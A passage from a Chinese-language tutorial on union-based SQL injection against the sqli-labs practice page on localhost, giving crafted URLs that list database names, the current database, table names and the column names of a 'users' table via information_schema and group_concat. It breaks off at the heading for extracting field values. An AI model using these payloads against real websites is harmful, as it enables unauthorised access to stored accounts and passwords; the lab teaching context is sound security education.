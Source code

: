 从第一步我们得知字段数是 3 个，那么我们就可以通过 select 读取这 3 个字段的内容。由于这里的测试题目，在网页上只显示 1 个字段值，所以我们可以用 group_concat 函数将所有的数据库名连接起来，一次性地将多个字段值放在一个字段中显示。这里我把它放在了第 3 个字段中：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata
```


<Image alt="图片8.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7-qAIZdsAADRujoDa5o025.png"/> 
  
图 8： 系统数据库名

可以看到各个数据库名已经回显出来了。

**（3）获取当前数据库名**

通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当前数据库名，后面再用来读取数据库中的字段值。MySQL 提供的 database() 函数可用来获取数据库名，因此我们可以像下面这样构建 URL：

```sql
http://localhost/Less-2/?id=0 union select 1,2,database()--+
```

访问后我们得到当前数据库名为 security，接下来就可以去尝试读取该数据库内的内容。

**（4）枚举数据库中的表名**

通过以下语句获取存储账号密码的表名 users：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

访问上述特意构造的链接后，页面返回以下内容：


<Image alt="图片9.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7_OAZnv_AAGOoagH4-c761.png"/> 
  
图 9：数据库中的表名

**（5）枚举表中的字段名**

得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information_schema.columns 中包含字段列表信息，因此我们可以通过它获取每个字段的名称，构造以下 URL 获取：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
```

访问后页面返回以下内容，得到表中的各个字段名：


<Image alt="Drawing 9.png" src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7yGAUF0ZAAAojuOFTVI874.png"/> 
  
图 10：表中的字段名

**（6）获取字段值**
